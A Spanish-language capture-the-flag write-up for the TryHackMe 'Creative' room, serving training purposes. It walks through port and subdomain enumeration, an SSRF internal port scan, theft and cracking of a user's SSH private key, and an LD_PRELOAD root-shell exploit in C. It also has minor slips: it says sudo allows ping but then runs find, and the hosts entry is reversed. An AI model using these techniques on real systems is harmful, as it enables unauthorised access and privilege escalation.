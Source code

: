 ```yaml
---
title: "Creative"
description: "Creative"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/creative

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.39.180
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428180008.png)

## Reconocimiento de servicios

````
nmap -sVC -p22,80 -Pn 10.10.39.180
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428180208.png)

## Añadimos el nombre de domnio al etc/hosts

````
creative.thm 10.10.39.180
````

## Gobuster

````
gobuster dir -u http://creative.thm -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

## FFUZ

````
ffuf -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt  -fw 6
````

Encontramos un beta.creative.thm con un SSRF

# Fase de ataque

# SSRF

Podemos hacer request al localhost

1. Capturamos la petición con Burpsuite
1. Lo mandamos al Intruder
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428185523.png)
1. Creamos un puertos.txt con todos los puertos para hacer descubrimiento de puertos interno

````
seq 65535 > ports.txt
````

4. Como la web comprueba si la url esta viva o no poniendo "dead". Metemos una opcion que diga si en la web pone dead
4. Lanzamos el ataque
4. Filtramos por lo que no tengan la palabra dead
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428185823.png)
   Podemos ver el puerto 80 y el 1337

## Directory lisiting

La web es el directorio del sistema

1. Buscamos el home del usuario
1. Sacamos su clave privada
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428190346.png)
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428191046.png)
1. Nos conectamos por SSH

````
ssh saad@10.10.39.180 -i id_rsa 
````

Pide passphrase

## Crack passphrase

1. Convertimos la clave privadaa formato john

````
ssh2john id_rsa > id_rsa.john
````

2. La crackeamos con john

````
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
````

Found!
3. Nos conectamos por SSH

````
ssh saad@10.10.39.180 -i id_rsa 
````

\[-\] ==pwned!==

# Privilege Escalation

Dentro de .bash_history encontramos la contraseña de saad
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428192109.png)
Podemos ejecutar el siguiente comando con contraseña para saber que comandos con privilegioss puede utilizar el usuario

````
sudo -l
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428192155.png)
Vemos que puede utilizar ping y hay una variable LD_PRELOAD

## LD_PRELOAD

1. Creamos un programa en C en /tmp que lanza una terminal root

````
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
````

2. Compilamos

````
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
````

Se crea un archivo shell.so
3. Ejecutamos el shell con el comando con privilegios

````
sudo LD_PRELOAD=/tmp/shell.so find
````

\[+\] ==pwned!==
